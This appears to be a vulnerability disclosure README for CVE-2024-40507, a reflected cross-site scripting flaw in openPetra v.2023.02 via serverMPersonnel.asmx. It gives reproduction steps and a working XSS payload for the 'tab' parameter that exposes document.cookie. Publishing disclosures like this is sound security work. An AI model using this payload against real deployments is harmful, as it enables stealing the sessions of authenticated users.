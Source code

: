 # CVE-2024-40507
# Cross Site Scripting vulnerability in openPetra v.2023.02 via the serverMPersonnel.asmx function.

**Description**: An unauthenticated user can steal cookies from authenticated user, by exploiting a XSS in openPetra v.2023.02 via the serverMPersonnel.asmx function.

**Vulnerable Product Version**: openPetra v.2023.02  
**CVE Author**: Jansen Moreira 
**Date**: 13/07/2024  
**CVE**: CVE-2024-40507       
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2024-40507  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2024-40507   
**Tenable Link**: https://www.tenable.com/cve/CVE-2024-40507  
**Confirmed on**: 13/07/2024                               
**Tested on**: Linux  
### Steps to reproduce:  
1- Access the home Page  
2- Use the following path and add the xss payload in the tab parametrer. EX.: ```http://target.com/api/serverMPersonnel.asmx?bnd=TMHospitalityWebServiceSoap&op=THospitalityWebConnector_Dummy&page=op&tab=x" onmouseover=alert(document.cookie) x="```                                                 
3- Hover the mouse over the left index item to trigger the XSS  

**Payloads**:  
tab: x" onmouseover=alert(document.cookie) x="


Discoverer(s)/Credits:
Jansen Moreira 
